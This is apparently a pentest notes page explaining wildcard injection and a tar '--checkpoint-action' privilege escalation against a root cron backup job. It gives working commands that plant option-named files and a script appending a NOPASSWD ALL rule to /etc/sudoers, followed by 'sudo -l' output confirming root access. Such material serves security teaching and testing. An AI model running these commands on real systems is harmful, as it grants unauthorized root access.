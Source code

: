
## General

Wildcard vulnerabilities refer to a type of security vulnerability that occurs when a user or an application uses a wildcard character, such as an asterisk `(*)`, in a file path or command without properly validating the input. This can allow an attacker to manipulate the wildcard to access or execute unintended files or commands, potentially leading to privilege escalation or other security issues.

A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:

| character | Signification |
| --------- | ------------- |
| *         |      An asterisk that can match any number of characters in a file name.         |
| ?         |            Matches a single character.   |
| []        |     Brackets enclose characters and can match any single one at the defined position.          |
| ~         |            A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.   |
| -          |    A hyphen within brackets will denote a range of characters.           |

To prevent wildcard vulnerabilities, it is important to carefully validate user input and ensure that it does not contain wildcards or other potentially harmful characters. It is also a good idea to use strict permissions on system files and directories to prevent unauthorized access.

Example of vulnerability
	Imagine that there is a bash script on a Linux machine that copies files from one directory to another as part of a backup process. The script takes a single argument, which is the path of the source directory. However, the script does not properly validate the input and allows wildcard characters, such as the asterisk (*).
	ㅤ
	An attacker could manipulate the input to include a wildcard, such as "*", which would match all files in the current directory. If the script is run from a directory with sensitive files, the attacker could use the wildcard to copy all of the files in the directory, potentially leading to data leakage or other security issues.


## Commands

Example of abusing the "tar" command

1. Looking at the man page
```
man tar

<SNIP>
Informative output
--checkpoint[=N]
Display progress messages every Nth
record (default 10).
--checkpoint-action=ACTION
Run ACTION on each checkpoint.
```

- The --checkpoint-action option permits an EXEC action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, --checkpoint=1 and --checkpoint-action=exec=sh root.sh is passed to tar as command-line options.

2. Example cron job
```
#
#
mh dom mon dow command
*/01 * * * * cd /tmp && tar -zcf
/tmp/backup.tar.gz *
```

- Consider the following cron job, which is set up to back up the /root directory's contents and create a compressed archive in /tmp. The cron job is set to run every minute, so it is a good candidate for privilege escalation.

3. Leverage wildcard to write out the commands as file names to be executed
```
echo 'echo "cliff.moore ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

4. When the cron job runs again, check for the newly added permissions
```
sudo -l

Matching Defaults entries for cliff.moore on NIX02:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cliff.moore may run the following commands on NIX02:
(root) NOPASSWD: ALL
```